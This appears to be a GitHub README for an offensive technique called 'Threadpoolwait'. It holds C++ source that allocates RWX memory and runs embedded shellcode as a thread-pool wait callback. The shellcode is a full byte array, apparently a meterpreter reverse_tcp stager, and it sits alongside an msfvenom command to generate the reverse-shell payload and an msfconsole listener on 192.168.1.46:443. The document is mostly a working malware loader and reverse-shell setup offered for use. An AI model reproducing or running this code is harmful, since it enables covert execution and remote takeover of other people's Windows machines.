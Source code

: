 # Threadpoolwait

### Techniques

* CreateEvent is used to create an event object with a Signaled state
* RWX memory for the shellcode is allocated with VirtualAlloc and the shellcode is written there
* CreateThreadpoolWait is used to create a wait object. 1st argument of the function is a callback function, that will be called once the wait ends (immediately in our case, since our waitable event is in the Signaled state from the start). We will pass the address of our shellcode (allocated in step 2) as the callback function
* SetThreadpoolWait is used to set wait object to the wait object created in step 3
* WaitForSingleObject is used to wait for the waitable object to become Signaled, but since our event (waitable) object was created with a Signaled state in step 1, our callback function specified in step 3 is called and the shellcode is executed right away

#### Threadpool.cpp

```cpp
#include <windows.h>
#include <threadpoolapiset.h>

unsigned char shellcode[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x8b\x52\x10\x8b\x42\x3c\x57\x01\xd0\x8b\x40\x78"
"\x85\xc0\x74\x4c\x01\xd0\x8b\x48\x18\x8b\x58\x20\x50\x01\xd3"
"\x85\xc9\x74\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac"
"\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24"
"\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59"
"\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d"
"\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26"
"\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x01\x2e\x68\x02"
"\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
"\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
"\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
"\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
"\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff"
"\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";



int main()
{
//CreateEvent is used to create an event object with a Signaled state
HANDLE event = CreateEvent(NULL, FALSE, TRUE, NULL);
//we allocate memory in the local process for our payload:
LPVOID shellcodeAddress = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
//Copies the contents of a source memory block to a destination memory block
RtlMoveMemory(shellcodeAddress, shellcode, sizeof(shellcode));
//CreateThreadpoolWait is used to create a wait object. 
//1st argument of the function is a callback function, 
// that will be called once the wait ends 
//(immediately in our case, since our waitable event is in the Signaled state from the start).
// We will pass the address of our shellcode (allocated in step 2) as the callback function
PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK)shellcodeAddress, NULL, NULL);
SetThreadpoolWait(threadPoolWait, event, NULL);
WaitForSingleObject(event, INFINITE);

return 0;
}
```

### Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443  -f c 
```

### Listener

```bash
 msfconsole -x "use exploits/multi/handler; set lhost 192.168.1.46; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```

Tips : run on x86 
